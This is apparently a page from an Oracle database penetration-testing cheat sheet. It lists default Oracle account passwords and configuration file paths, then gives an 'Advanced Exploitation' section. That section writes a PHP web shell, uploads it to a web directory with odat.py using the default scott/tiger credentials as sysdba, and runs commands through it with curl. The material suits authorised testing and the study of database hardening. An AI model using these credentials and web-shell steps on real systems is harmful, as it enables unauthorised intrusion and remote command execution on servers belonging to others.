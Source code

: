 ## Default Oracle Accounts

### System Accounts
```
sys/change_on_install   - System administrator
system/manager         - System DBA
sysman/sysman          - Enterprise Manager
dbsnmp/dbsnmp          - SNMP monitoring
```

### Application Accounts
```
scott/tiger            - Sample schema
hr/hr                  - Human Resources schema
oe/oe                  - Order Entry schema
sh/sh                  - Sales History schema
```

---

## Oracle Configuration Files

### TNS Configuration
```bash
# tnsnames.ora - Client-side service names
$ORACLE_HOME/network/admin/tnsnames.ora

# listener.ora - Server-side listener configuration
$ORACLE_HOME/network/admin/listener.ora

# sqlnet.ora - Network configuration
$ORACLE_HOME/network/admin/sqlnet.ora
```

### Common Paths
```
Linux:   $ORACLE_HOME/network/admin/
Windows: %ORACLE_HOME%\network\admin\
```

---

## Advanced Exploitation

### Web Shell Deployment
```bash
# Create PHP web shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# Upload to web directory
./odat.py utlfile -s target -d XE -U scott -P tiger --sysdba --putFile /var/www/html shell.php ./shell.php

# Access web shell
curl http://target/shell.php?cmd=whoami
```
